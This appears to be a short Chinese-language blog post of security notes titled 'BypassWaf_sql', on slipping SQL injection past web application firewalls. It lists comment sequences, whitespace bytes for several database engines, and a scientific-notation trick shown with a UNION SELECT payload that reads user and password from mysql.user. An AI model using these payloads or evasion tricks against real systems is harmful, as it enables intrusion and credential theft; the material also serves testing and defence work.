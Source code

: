 ```yaml
---
layout:     post
title:      BypassWaf_sql
date:       2019-1-7
author:     Wh0ale
header-img: img/sky_lanterns_by_wlop-d7b5nfg.jpg
catalog: true
tags:
    - sql
---
```


![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyl7t8lzqkj215u0qjdj9.jpg)

# 0x01 BypassWaf_sql**

## 1. 数据库特性 

**①注释**

```
#
-- 
-- - 
--+ 
// 
/**/ 
/*letmetest*/ 
;%00
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyx86ua17xj20qz0h60we.jpg)

但/**/ > 1个就可以绕过waf



**科学计数法**

```
select id,id_number,weibo from table where id=0e1union select user,password,1e1from mysql.user
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyx851c8dbj20oh0d7mxk.jpg)



**空白字符：**

```
SQLite3 0A 0D 0C 09 20  MySQL5 09 0A 0B 0C 0D A0 20  
PosgresSQL 0A 0D 0C 09 20  Oracle 11g 00 0A 0D 0C 09 20  
MSSQL 01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16 ,17,18,19,1A,1B,1C,1D,1E,1F,2
```
